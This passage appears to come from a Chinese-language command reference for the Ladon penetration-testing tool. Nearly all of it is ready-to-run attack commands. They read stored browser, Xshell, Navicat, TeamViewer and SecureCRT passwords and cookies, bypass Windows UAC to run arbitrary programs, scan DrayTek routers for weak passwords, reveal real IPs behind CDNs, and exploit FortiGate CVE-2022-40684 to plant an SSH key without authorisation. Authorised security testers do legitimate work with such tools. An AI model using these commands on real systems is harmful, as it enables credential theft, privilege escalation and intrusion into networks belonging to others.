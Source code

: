 ##### 181 Http/S获取网页中的域名
```Bash
Ladon https://192.168.1.8 GetDomain
Ladon ip.txt GetDomain
Ladon 192.168.1.8/24 GetDomain http
Ladon ip.txt GetDomain https	扫描IP时添加https://
```

##### 182 TrueIP绕过CDN获取域名真实IP(可用域名、标题、Banner等唯一关键字特征)
```Bash
Ladon ip.txt TrueIP k8gege.org
Ladon 192.168.1.8/24 TrueIP k8gege.org
Ladon ip.txt TrueIP "K8哥哥"
Ladon 192.168.1.8/24 TrueIP "K8哥哥"
```

![image](http://k8gege.org/k8img/Ladon/Study/pwd.PNG)

##### 183 Firefox密码\Cookie\历史记录读取
```Bash
Ladon FirefoxPwd
Ladon FirefoxHistory
Ladon FirefoxCookie
```

##### 184  BypassUAC11无回显支持Win7、Win8、Win11 Win2012\2016\2019等 10.8版本移除
```Bash
Ladon40 BypassUAC11 cmd
Ladon40 BypassUAC11 c:\1.bat
Ladon40 BypassUAC11 c:\1.exe
```

##### 185 GetPwd支持Navicat、TeamView、Xshell、SecureCRT密码读取
```Bash
Ladon GetPwd
```

##### 186 DraytekScan 密码审计Draytek弱口令检测
```Bash
Ladon 192.168.1.8 DraytekScan
Ladon https://192.168.1.8 DraytekScan
Ladon 192.168.1.8/24 DraytekScan
Ladon url.txt DraytekScan
```

##### 187 XshellPwd Xshell密码读取
```Bash
Ladon XshellPwd
```

##### 188 FortiGate CVE-2022-40684 未授权写SSH-KEY admin admin123
```Bash
Ladon 192.168.1.8 CVE-2022-40684
Ladon https://192.168.1.8 CVE-2022-40684
Ladon 192.168.1.8/24 CVE-2022-40684
Ladon url.txt CVE-2022-40684
```
